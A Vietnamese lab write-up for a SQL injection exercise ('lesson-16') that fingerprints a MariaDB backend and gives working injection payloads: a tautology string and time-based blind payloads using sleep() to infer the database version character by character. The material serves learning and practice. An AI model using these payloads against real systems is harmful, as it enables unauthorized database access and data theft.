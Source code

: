 # Những việc làm được với lesson-16
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-16

![](../images/lesson15/screen_5.png)

Cũng tưng tự như bài 15 thì ta sẽ đi tìm cấu trúc của nó. Và ta sẽ thấy rằng bài này cũng phải dùng time-base để có thể  tìm kiếm được thông tin của nó. 

1. Cấu trúc của bài 16 là 

```
") or 1=1 -- 
```

![](../images/lesson16/screen_7.png)

2. Tìm version của bài 16 

Ta cũng đã biết được DB là `MariaDB` bằng cách sử dụng nmap rồi. Tiếp theo chúng ta sẽ đi tìm version của nó như bài 15
```
") or if(substr((select @@version),1,1)='1',sleep(5),false) -- 
```

![](../images/lesson16/screen.png)

```
") or if(substr((select @@version),1,1)='5',sleep(5),false) -- 
```

![](../images/lesson16/screen_1.png)


```
") or if(substr((select @@version),1,3)='5.5',sleep(2),false) -- 
```

![](../images/lesson16/screen_3.png) 


